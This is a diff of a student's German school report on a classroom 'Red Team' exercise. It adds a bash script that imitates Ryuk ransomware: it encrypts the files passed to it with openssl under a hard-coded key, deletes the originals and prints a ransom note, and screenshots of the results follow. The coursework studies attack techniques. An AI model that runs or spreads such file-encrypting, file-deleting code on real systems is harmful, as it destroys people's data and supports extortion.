

Before and after one commit to lisahintermaier/4AHITS_ITSE_Hintermaier, a Markdown page: berichte/20261001.md, the part around the change. Shown at 85% size. Rendered like a GitHub page; pictures changed too: berichte/image-1.png (added), berichte/image.png (added); blank space fills up the shorter version.

Commit message:
mit Übung2

````diff
--- a/berichte/20261001.md
+++ b/berichte/20261001.md
@@ -19,8 +19,54 @@ Globaler RSA Masterkey für die Zentrale Kontrolle: Eine Geheimnis für alle Opf
 -> so wie im Unterricht besprochen
 
 ## Übung 1.2 Ryuk - Red Team
+### Angabe:
+Red Team = Angreifer
+Erstelle ein bash Script das mehrere Dateinamen als Argumente akzeptiert und diese Dateien nach der von Ryuk angewendeten Strategie verschlüsselt. Verwende openssl.
+Z.B. alle Dateien im Verzeichnis verschlüsseln:
+
+$ ryuk_ransom *
+
+Nach dem Verschlüsseln aller Daten soll eine furchterregende "Ransom Note" ausgegeben
 
 
+### Code zum verschlüsseln einer Datei
+```ssh
+#!/bin/bash
+
+# Prüfe ob Argumente vorhanden sind
+if [ $# -eq 0 ]; then
+   echo "Verwendung: $0 <datei1> <datei2> ..."
+   exit 1
+fi
+
+ENCRYPTION_KEY="MySecretKey12345"
+encrypted_count=0
+
+# Verschlüssele jede Datei
+for file in "$@"; do
+   if [ -f "$file" ]; then
+       openssl enc -aes-256-cbc -salt -in "$file" -out "$file.encrypted" -k "$ENCRYPTION_KEY" 2>/dev/null
+       rm "$file"
+       ((encrypted_count++))
+   fi
+done
+
+# Ransom Note
+echo ""
+echo "============================================"
+echo "IHRE DATEIEN WURDEN VERSCHLUESSELT!"
+echo "============================================"
+echo "Kontaktieren Sie: ransom@darknet.onion"
+echo ""
+echo "$encrypted_count Datei(en) verschluesselt."
+echo "============================================"
+```
+
+### Inhalt der Datei vor dem Verschlüsseln. Datei: datei1.txt
+![alt text](image-1.png)
+
+### Inhalt nach dem Verschlüsseln. Hierbei wird eine neue Datei erstellt: datei1.txt.encrypted
+![alt text](image.png)
 
 
 
````
